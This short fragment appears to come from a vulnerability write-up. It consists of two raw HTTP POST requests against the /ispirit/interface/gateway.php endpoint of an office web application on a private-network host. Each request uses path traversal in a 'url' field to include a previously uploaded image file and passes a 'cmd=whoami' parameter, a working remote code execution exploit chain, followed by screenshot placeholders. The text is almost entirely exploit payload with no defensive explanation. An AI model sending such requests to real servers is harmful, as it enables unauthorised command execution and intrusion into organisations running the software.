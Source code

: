 ```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.52.30:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2409/731126929.jpg"}&cmd=whoami
```

![截图](b602ee0c97e432b54333a160f57d3ee2.png)

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.52.30:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 72
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2409/1329251649.jpg"}&cmd=whoami
```

![截图](6b5b588919de0f3cc8d334b485278afe.png)

